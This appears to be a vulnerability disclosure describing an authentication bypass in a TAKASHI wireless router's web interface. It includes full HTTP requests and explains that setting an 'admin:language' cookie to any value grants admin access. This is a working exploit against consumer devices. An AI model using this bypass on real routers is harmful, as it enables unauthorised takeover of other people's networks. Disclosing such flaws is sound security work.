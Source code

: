 #TAKASHI Wireless Instant Router And Repeater Web Application Authentication Bypass

This vulnerability is related to how the web application handles sessions for authenticated users. The issue arises due to improper session management, allowing unauthorized users to gain admin-level access.

#Below You Will See A Request Comparison

To understand how this vulnerability works, let's compare an unauthenticated request to an authenticated request.

**An unauthenticated request looks like this:**

POST /LoginCheck HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: `http://192.168.2.1/login.asp`
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: `http://192.168.2.1`
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Username=admin&checkEn=0&Password=whatsthepassword

**When the user is authenticated, the request looks like this:**

GET /wireless_basic.asp HTTP/1.1
Host: `192.168.2.1`
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: `http://192.168.2.1/advance.asp`
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en; admin:language=en
Upgrade-Insecure-Requests: 1
Priority: u=4


Key Difference

The key difference between the two requests is the presence of the following cookie:

admin:language=en

The Vulnerability

This vulnerability is based on the way the application validates session data. By manipulating the admin:language cookie, an unauthenticated user can gain access to authenticated pages.
Exploit Mechanics

To exploit this vulnerability, all an attacker needs to do is set the cookie admin:language with any arbitrary value. The application will trust this cookie and treat the user as an authenticated admin.

admin:language=<any_value>

Where <any_value> can be any string,text or numbers. As long as the cookie is given that name, the application will behave as if the user is authenticated.
Conclusion

This vulnerability shows the importance of proper session management.
